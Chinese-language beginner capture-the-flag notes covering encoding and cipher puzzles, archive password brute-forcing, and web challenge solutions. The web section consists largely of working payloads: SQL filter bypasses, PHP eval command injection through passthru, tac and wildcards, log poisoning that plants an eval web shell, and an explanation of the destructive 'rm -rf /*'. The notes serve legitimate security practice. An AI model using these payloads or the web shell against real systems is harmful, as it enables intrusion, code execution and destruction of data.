

萌新
密码
1. 多层编码
53316C6B5A6A42684D3256695A44566A4E47526A4D5459774C5556375A6D49324D32566C4D4449354F4749345A6A526B4F48303D16进制 → hex 解码：
S1lkZjBhM2ViZDVjNGRjMTYwLUV7ZmI2M2VlMDI5OGI4ZjRkOH0=包含大写字母、小写字母、数字和符号，末尾带有等号 =：Base64 解码：
KYdf0a3ebd5c4dc160-E{fb63ee0298b8f4d8}包含了完整的 KEY{...} 格式骨架，但字母顺序是错乱的：栅栏密码。
2. 键盘包围
"敲几下键盘" → 键盘包围密码
3. 摩斯密码
-- --- .-. ... . ..--.- .. ... ..--.- -.-. --- --- .-.. ..--.- -... ..- - ..--.- -... .- -.-. --- -. ..--.- .. ... ..--.- -.-. --- --- .-.. . .-. ..--.- -- -- -.. -.. -- -.. -- -.. -- -- -- -.. -.. -.. /-- -.. -- -.. -.. --/ -- -- -- -- -- /-- -.. -.. -- -.. -- /-- -.. -.. --摩斯密码解码：
MORSE_IS_COOL_BUT_BACON_IS_COOLER_MMDDMDMDMMMDDDMDMDDMMMMMMMDDMDMMDDM英语：摩斯密码很酷但培根更酷。
MMDDMDMDMMMDDDMDMDDMMMMMMMDDMDMMDDM 换成 AB：
AABBABABAAABBBABABBAAAAAAABBABAABBA培根解密：guowang
4. 多层编码2
QW8obWdIWF5FKUFSQW5URihKXWZAJmx0OzYiLg==Base64 解码：
Ao(mgHX^E)ARAnTF(J]f@<6".HTML 解码：
Ao(mgHX^E)ARAnTF(J]f@<6".存在过多符号：Base85
隐写
- 压缩文件爆破：ARCHPR。只有数字且有范围，设置条件。
- Word 隐藏：文件 → 选项 → 隐藏文字
杂项
- md5 解码：https://www.somd5.com/
- winhex 打开 / 记事本打开
- 解压需要密码 → ARCHPR → 所有数字 → 372000000~372999999
- 所有大写字母爆破
Web
1. 十六进制绕过
注入点：?id=...
preg_match("/or|\+/i", $id)— 过滤了or和+intval($id) > 999— 值必须大于 999
目标：<!-- flag in id = 1000 -->，拿到 id=1000 的数据。
重要线索：代码中有 echo "执行的sql为: $sql";，会把最终执行的 SQL 语句打印出来。
解法：?id=0x3e8（1000 的十六进制），<999 绕过前端检查，进入 SQL 后被转换成 1000。
2. 更多绕过方式
if(preg_match("/or|\-|\\|\*|\<|\>|\!|x|hex|\+/i",$id))- SQL 函数：
?id=power(10,3) - 两次取反：
~~1000 - 或运算：
?id=999||id=1000
3. 进制转换表
| 进制 | 前缀 |
|---|---|
| 十六进制 | 0x、0X、H |
| 二进制 | 0b 或 0B |
| 八进制 | 0、0o、0O |
4. 删库跑路
rm -rf /*rm— 删除文件-r（recursive）— 递归删目录-f（force）— 不提示强制/*— 根目录下所有东西
效果：把整个系统文件全删光 → 俗称"删库跑路"
5. system 执行命令

打开页面，告诉 c 需要有 system|exec|highlight 三者之一：
?c=system('ls');列出服务器当前目录文件：index.php 和 config.php。
?c=system('cat config.php');打开控制台查看便得到 flag。
6. passthru 绕过
<?php
# flag in config.php
include("config.php");
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/system|exec|highlight/i",$c)){
eval($c);
}else{
die("cmd error");
}
}else{
highlight_file(__FILE__);
}
?>用没被禁的 passthru：
?c=passthru('ls');
?c=passthru('cat config.php');7. cat 被禁 → 用 tac
<?php
# flag in config.php
include("config.php");
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/system|exec|highlight|cat/i",$c)){
eval($c);
}else{
die("cmd error");
}
}else{
highlight_file(__FILE__);
}
?>cat 不能用，用 tac（反向输出）：
?c=passthru('tac config.php');8. 通配符绕过
<?php
# flag in config.php
include("config.php"); if(isset($_GET['c'])){
$c = $_GET['c']; if(!preg_match("/system|exec|highlight|cat|\.|php|config/i",$c)){ eval($c);
}else{
die("cmd error");
}
}else{
highlight_file(__FILE__);
}
?> config.php 被 ban 了，用通配符省略：
?c=passthru('tac conf*');passthru()— PHP 内置函数，执行外部命令并直接输出tac— 反向输出文件内容conf*— 匹配所有以 conf 开头的文件
9. PHP 闭合标签绕过
对分号、file 的过滤 → 无法用分号闭合，用 ?> 直接闭合 PHP 代码：
?c=passthru('more confi*')?>F12 查看源码即可。
10. 变量直读
?c=echo $flag?>echo $flag— 直接输出变量值?>— 切断后续代码
过滤规则：$ 后面不能跟 .、;、file、php 或 config。但 $flag 后面是 f，不在黑名单，顺利执行。
关键思路：既然文件已被 include，直接读变量而不是读文件。
11. Nginx 日志注入
Nginx 中间件的日志在 /var/log/nginx/access.log：
/?c=/var/log/nginx/access.log在 User-Agent 塞入：
<?php @eval($_POST['aaa']);?>中国蚁剑连接，改为一句话：
<?php system('tac 36d.php');?>12. 短命令绕过
if(strlen($_GET[1])<4){
echo shell_exec($_GET[1]);
}GET 参数长度必须 < 4，像 cat flag 这种命令都 ≥4。
解法：利用 Shell 通配符拼接：
?1=>nl— 创建空文件nl（3字符）?1=ls— 看目录?1=*— Shell 展开*为所有文件名，拼成nl z.php，执行带行号显示文件内容